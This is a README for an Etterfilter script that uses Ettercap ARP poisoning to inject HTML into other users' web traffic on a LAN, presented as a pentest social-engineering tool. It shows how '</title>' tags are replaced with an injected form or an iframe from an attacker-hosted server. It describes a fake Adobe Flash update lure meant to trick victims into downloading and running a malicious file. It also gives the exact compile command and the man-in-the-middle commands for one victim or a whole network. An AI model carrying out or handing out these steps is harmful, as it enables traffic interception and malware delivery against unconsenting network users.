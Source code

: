 Ze-filter
=========

This is an `Etterfilter` script to inject arbitrary HTML code on LAN (HTTP) traffic. The `Etterfilter` utility is used to compile source filter files into binary filter files that can be interpreted by the JIT interpreter in the `Ettercap` filter engine. You have to compile your filter scripts in order to use them in `Ettercap`. All syntax/parse errors will be checked at compile time, so you will be sure to produce a correct binary filter for `Ettercap`. 

Dependencies:
----------
`Ettercap` (Installing `Ettercap` will include `Ettercapfilter`). `Ettercap` is sort of a Swiss army knife of ARP poisoning and network sniffing. 

`Ettercap` can be extended by using filters and plug-ins, making it able to do all sorts of neat network tasks.

What are the sample scripts for?
----------------------------
The scripts are supposed to present the ability to use `Etterfilter` as a Social Engineering tool while doing a pentest. For instance, you may want to present a malicious file to your victim and trick them to download and execute.

While in the same network with the victim(s), you can add some additional (unintended) HTML code to any web page they visit (If it's an encrypted website you have to combine the use of `SSLstrip`). In these example scrips, the victims are notified that their Adobe Flash Player` is outdated and we present a malicious file as the updated version of `Adobe Flash player` for download. Neat.

How to test the scripts.
--------------------------
There are two approaches to test the above concept.

1) We can aim to replace any `<\title>` tag with our extra HTML code.

```html 
"</title>" will be replaced with something like this "</title><'then our additional HTML goes here'>" 
```

2) Replace any `<\title>` tag with a separate HTML file with the additional HTML code e.g. a malicious form 

```html
"</title>" will be replaced with something like this "</title><iframe src=the-file.html></iframe>"
```

To test for the first approach, use the content in *form folder* and to test for the second approach, use content in *iframe folder*

**NB:**  *You will need to set up a web server and host  the content required for HTML injection . Make sure the files are publicly accessible and then edit the file with `.filter` extension by replace the '10.0.0.2' with your web-server IP address.*

Compiling
-------------
The file with `.filter` extension is the one to be compiled. Open it with your favorite editor and make common changes like the IP address, the image source and the executable source. You can host the files in a local web server or have them served by free on-line file servers. I prefer the former.

After editing and saving the changes: Use `Etterfilter` command to compile the file.  

```bash
Etterfilter file.filter -o file.ef
```

`file.flter` is the input file and `file.ef` is the output file. The compiled output file is what we are going to load with `Ettercap` using switch F (`-F`).


Running the Script
-----------------

If you don't have `Ettercap` already installed, please do:
```bash 
sudo apt-get install zlib1g zlib1g-dev
sudo apt-get install build-essential
sudo apt-get install ettercap-text-only
```

To run the sample filter script, open a terminal and do the following to target a single victim:
```bash
ettercap -T -q -F file.ef -M ARP /10.0.0.6// ///
```
To target all clients in a LAN ( which is very noisy)
```bash
ettercap -T -q -F file.ef -M ARP /// ///
```

![Screen Shot](./screen-shot.png)
